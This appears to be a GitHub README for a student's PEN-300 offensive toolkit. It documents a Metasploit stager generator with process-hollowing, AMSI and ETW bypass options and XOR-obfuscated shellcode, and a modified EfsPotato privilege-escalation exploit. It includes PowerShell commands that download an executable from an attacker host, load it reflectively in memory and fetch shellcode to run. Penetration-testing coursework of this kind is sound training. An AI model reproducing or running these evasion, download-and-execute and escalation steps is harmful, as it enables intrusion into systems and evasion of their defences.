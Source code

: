 # Tools for my PEN-300 course

* Update `LHOST` and `LPORT` in `ak.py` to your MSF (or other C2) listening IP and port before crafting any tools.
* By default, staged payloads will pull from the following URL `http://(LHOST)/sc`.
* Stageless payloads will automatically apply an XOR encryption to obfuscate the shellcode.

## MSF Stager

```
usage: generate_win_msf_stager.py [-h]
                                  [--injection {hollow,interprocess,earlybird,standard}]
                                  [--format {exe,dll}]
                                  [--heuristics | --no-heuristics]
                                  [--amsi | --no-amsi] [--etw | --no-etw]
                                  [--stageless | --no-stageless]

optional arguments:
  -h, --help            show this help message and exit
  --injection {hollow,interprocess,earlybird,standard}, -i {hollow,interprocess,earlybird,standard}
  --format {exe,dll}, -f {exe,dll}
  --heuristics, --no-heuristics
  --amsi, --no-amsi
  --etw, --no-etw
  --stageless, --no-stageless
```

## Examples

```sh
# Create a dll that will use hollowing to load shellcode
python3 generate_win_msf_stager.py --injection hollow --format dll

# Create a stageless exe that will load and run shellcode within the same process
python3 generate_win_msf_stager.py --stageless --format exe
```

## EFSPotato Local Priv Escalation
The code is forked from https://github.com/zcgonvh/EfsPotato

I modified it to pull shellcode from the URL specified in the first argument, and then use process hollowing
to start an svchost.exe process and inject the shellcode into it.

### Standard Execution
```powershell
wget http://10.10.14.110/EfsPotato.exe -o C:\windows\tasks\EfsPotato.exe
C:\windows\tasks\EfsPotato.exe http://10.10.14.110/shellcode
```

### Using Assembly Reflection
```powershell
$u="http://10.10.14.110/EfsPotato.exe"
$b=(New-object system.net.webclient).DownloadData($u)
$a=[System.Reflection.Assembly]::Load($b)
[EfsPotato.Program]::Main("http://10.10.14.110/shellcode")
```
